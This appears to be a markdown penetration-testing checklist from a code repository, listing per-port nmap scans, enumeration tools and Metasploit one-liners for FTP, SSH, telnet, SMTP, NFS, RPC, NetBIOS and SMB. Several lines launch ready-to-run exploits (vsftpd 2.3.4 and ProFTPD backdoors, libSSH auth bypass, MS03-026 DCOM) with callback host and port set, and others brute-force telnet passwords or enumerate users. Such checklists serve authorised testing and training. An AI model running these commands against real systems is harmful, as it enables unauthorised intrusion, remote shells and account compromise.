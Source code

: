 - Run scripts for each port type:
    - 21/ftp:
        - `nmap -A -sV -Pn -sC -p 21 -v --script-timeout 90 --script=ftp-*`
        - `msfconsole -q -x "setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; use auxiliary/scanner/ftp/ftp_version; run; exit;` # find FTP version
        - `msfconsole -q -x "setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; use auxiliary/scanner/ftp/anonymous; run; exit;` # anonymous FTP scan
        - `msfconsole -q -x "setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; use exploit/unix/ftp/vsftpd_234_backdoor; run; exit;"` # vsftpdf 2.3.4 backdoor exploit
        - `msfconsole -q -x "setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; use unix/ftp/proftpd_133c_backdoor; run; exit;"` # proftpd 1.3.3c backdoor exploit
    - 22/ssh:
        - `nmap -A -sV -Pn -sC -p 22 -v --script-timeout 90 --script=ssh-*`
        - `msfconsole -q -x "setg USER_FILE "$USER_FILE"; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; use scanner/ssh/ssh_version; run; exit;"` # find SSH version
        - `msfconsole -q -x "setg USER_FILE "$USER_FILE"; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; use scanner/ssh/ssh_enumusers; run; exit;` # openssh user enumeration
        - `msfconsole -q -x "setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; use scanner/ssh/libssh_auth_bypass; run; exit;"` # libSSH auth bypass exploit
    - 23/telnet:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=telnet*`
        - `msfconsole -q -x "use scanner/telnet/lantronix_telnet_password; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT";  run; use scanner/telnet/lantronix_telnet_version; run; use scanner/telnet/telnet_encrypt_overflow; run; use scanner/telnet/telnet_ruggedcom; run; use scanner/telnet/telnet_version; run; exit;"` # bruteforce telnet password
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=smtp*`
        - `msfconsole -q -x "use scanner/smtp/smtp_enum; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; run; exit;"` # SMTP user enum
    - 53/dns:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=dns*`
    - 67/dhcp:
        - `nmap -A -sU -sV -Pn -v --script-timeout 90 --script=dhcp*`
    - 68/dhcp:
        - `nmap -A -sU -sV -Pn -v --script-timeout 90 --script=dhcp*`
    - 69/tftp:
        - `nmap -A -sU -sV -Pn -v --script-timeout 90 --script=tftp*`
    - 79/finger:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=finger*`
    - 110/pop:
        - `nmap -A -sV -v --script-timeout 90 --script=pop*`
    - 111/nfs:
        - `msfconsole -q -x "use auxiliary/scanner/nfs/nfsmount; setg RHOSTS "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; back;exit;"` # NFS mount test
        - `showmount` # show mount information for remote NFS server
    - 123/ntp:
        - `nmap -A -sU -sV -Pn -v --script-timeout 90 --script=ntp-*`
    - 135/?:
        - `rpcinfo -p $TARGET` # status of RPC server
        - `nmap -A -p 135 -v --script-timeout 90 --script=rpc*`
        - `msfconsole -q -x "use exploit/windows/dcerpc/ms03_026_dcom; setg RHOST "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; back; exit;"`
    - 137/netbios:
        - `nmap -A -p 137 -v --script-timeout 90 --script=broadcast-netbios-master-browser*`
        - `msfconsole -q -x "use auxiliary/scanner/netbios/nbname; setg RHOSTS $TARGET; run; back;exit;"` # Netbios name
    - 139/smb:
        - `nmap -A -sV -p 139 -v --script-timeout 90 --script=smb*` # SMB scripts
        - `enum4linux $TARGET` # SMB enumeration
        - `python impacket-samrdump $TARGET` # ?
        - `nbtscan` # Netbios nameserver scanner